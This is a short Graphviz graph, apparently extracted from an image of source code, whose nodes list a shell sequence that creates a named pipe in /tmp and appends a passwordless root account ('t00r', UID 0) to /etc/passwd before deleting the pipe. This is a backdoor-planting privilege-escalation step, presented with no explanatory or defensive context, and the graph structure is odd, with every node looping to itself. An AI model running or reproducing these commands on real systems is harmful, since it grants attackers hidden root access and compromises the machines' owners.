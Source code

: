 digraph {
0 [label="mkfifo /tmp/ipseclive.conn "];
0 -> 0
2 [label="cat /tmp/ipseclive.conn "];
2 -> 2
4 [label="echo echo t00r::0:0::/tmp:/bin/sh>>/etc/passwd /tmp/ipseclive.conn "];
4 -> 4
6 [label="/tmp/ipseclive.conn "];
6 -> 6
8 [label="rm /tmp/ipseclive.conn "];
8 -> 8
}
